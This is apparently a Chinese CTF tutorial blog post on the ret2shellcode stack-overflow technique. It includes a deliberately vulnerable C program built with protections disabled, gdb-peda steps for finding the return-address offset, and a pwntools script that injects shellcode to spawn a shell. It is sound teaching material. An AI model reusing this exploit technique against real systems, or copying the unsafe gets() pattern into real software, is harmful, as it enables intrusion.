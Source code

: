 ```yaml
---
title: ret2shellcode攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


# 什么是ret2shellcode？

ret2shellcode 即 return to shellcode，跟ret2text类似，但是众所周知，在大多数程序中并没有像system("/bin/sh")这样可以直接利用的代码，因此，在没有可以直接利用的代码片段时，我们可以尝试输入一段shellcode，然后向返回地址写入shellcode地址，那么当程序返回时，就可以跳转到shellcode继续执行。

由于shellcode是在buf缓冲区里被执行，因此我们需要保证程序没有开启NX(No executable)保护，我们可以在gcc编译时添加*-z execstack*选项来关闭该保护。

# ret2shellcode示例代码

``` c
//gcc -m32 -fno-stack-protector -z execstack ret2shellcode.c -o ret2shellcode
#include <stdio.h>
#include <string.h>

char buf2[100];

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("No system for you this time !!!\n");
    gets(buf);
    strncpy(buf2, buf, 100);
    printf("bye bye ~");

    return 0;
}
```

本节示例的漏洞程序也可以从此处下载：[ret2shellcode](http://od7mpc53s.bkt.clouddn.com/ret2shellcode)

# 漏洞分析

如源码所示，这次程序依旧使用了不安全的函数gets()接受用户输入。另外在pwntools中已经为我们提供了可用的shellcode，如下：
``` python
shellcode = asm(shellcraft.sh())
```

我的利用方法也和ret2text类似，不过这次我们需要修改的返回地址变成了shellcode的地址，而这次定位返回地址，我们换个花样 :）

首先用gdb挂起程序后，我们使用peda的辅助功能pattern_create生成一系列的字符串，然后将其输入进buf中，因为过长的字符串会导致程序栈溢出，函数会停在返回地址处报错（因为访问了一个错误的地址），因此我们就可以直观地知道返回地址被哪个地方的哪个字符串覆盖了，从而知道buf首地址到返回地址之间的偏移。

``` bash
gdb-peda$ pattern_create 120
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA'
```
因为buf是100，因此我生成了长120的字符串保证栈溢出。接下来我们运行程序后输入这串字符

``` bash
gdb-peda$ run
Starting program: /home/vancir/Downloads/example/ret2shellcode/ret2shellcode
No system for you this time !!!
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAA
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
```
这里我们输入了过长字符串，因此程序提示Segmentation fault，这时我们再看程序的EIP
``` bash
EIP: 0x41384141 ('AA8A')
```
这时的EIP的值为0x41384141，也就是在返回地址上，因为访问了一个错误的地址，所以停了下来。这时我们只需要查询0x41384141('AA8A')在我们之前生成的串中的偏移

``` bash
gdb-peda$ pattern_offset  0x41384141
1094205761 found at offset: 112
```
得到偏移为112

接下来我们再得到buf的首地址(因为我们的shellcode会先输入到buf中执行)，调试的时候在gets(buf)的传参时候可以得到buf的地址，因此我们可以很简单地知道buf的地址为*0x804a080*。

那么我们进行攻击所需要的所有要素都已经收集完成啦

# 攻击代码

``` python
from pwn import *

shellcode = asm(shellcraft.sh())
buf_addr = 0x804a080

payload = ''
payload += shellcode.ljust(112,'A')
payload += p32(buf_addr)

io = process('ret2shellcode')
io.sendline(payload)
io.interactive()
```
